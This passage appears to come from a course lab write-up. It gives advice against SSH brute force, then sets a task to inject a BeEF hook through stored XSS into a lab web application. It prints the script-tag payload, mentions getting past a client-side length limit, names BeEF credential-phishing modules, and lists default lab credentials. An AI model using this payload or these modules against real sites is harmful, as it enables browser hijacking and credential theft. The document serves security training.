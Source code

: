 To prevent brute force attacks I would recommend implementing Account Lockouts. **Account lockouts with progressive delays** lock an account only for a set amount of time after a designated number of unsuccessful login attempts. **Making the Root User Inaccessible via SSH** would be another option since SSH brute force attempts are often carried out on the root user of a server. **Modifying the Default Port** could prove to be a useful way of dealing with brute force attacks, because most automated SSH attacks are attempted on the default port 22. **Two-factor authentication** is a great way of protection, even if an attacker cracks the password they would have to have access to your smartphone or email client to be successful. **Limit Logins to a Specified IP Address or Range** and allow access only from a designated IP address or range. Lastly be sure to **analyze your log files diligently**, log files are essential for maintaining a system.

---



### Web Application 3: *Where's the BeEF?*

**Setup and Launching BeEF + Demonstration**  [Link to Document](./BeEF.md)



Now that we know how to use the BeEF tool, we'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

- Task details:

  - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
  - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
  - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

- When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    

- Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:

  - Social Engineering >> Pretty Theft

  - Social Engineering >> Fake Notification Bar

  - Host >> Get Geolocation (Third Party)

    

---

#### Solution/Results



**Recap of Exploit and Environment Setup**

1. Launch and Navigate to the BeEF HTML (Process demonstrated above) [BeEF and Terminal Image](Images/beef.png).

2. Navigate to Replicants Website by using provided link in Task details

   - `http://192.168.13.25/vulnerabilities/xss_s/` 
   - Username: `admin` 
   - Password: `password`
